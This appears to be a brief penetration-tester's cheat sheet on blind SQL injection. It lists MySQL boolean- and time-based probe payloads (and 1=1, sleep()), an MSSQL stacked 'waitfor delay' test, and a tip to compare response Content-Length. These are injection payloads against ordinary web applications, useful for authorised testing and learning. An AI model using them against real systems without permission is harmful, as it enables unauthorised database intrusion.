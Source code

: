 
#### MySQL

_blind_ SQL injections describe scenarios in which database responses are never returned and behavior is inferred using either boolean- or time-based logic.

`<truthy legit value>' and 1=1 -- //` - testing for boolean based blind sqli. if we already have a truthy value and we tac on our test, we can determine if we can utilized boolean based injection if we still get a correct legitimate result returned.

`<truthy legit value>' and if (1=1, sleep(3), 'false') -- //` - equivalent testing using time based injection.

`' or if (1=1, sleep(5), 'false');-- //` - or conditional to quickly check for sqli vuln.

`look at the size of the return, with blind sqli there may be no results returned to the page that are differnt, differing results may be invisible - LOOK AT THE SIZE OF THE CONTENT-LENGTH RETURNED and determine which is a successful size and error/broken/fail size`

#### MSSQL

`test'; waitfor delay '0:0:5'-- //` - time based blind test stacked query

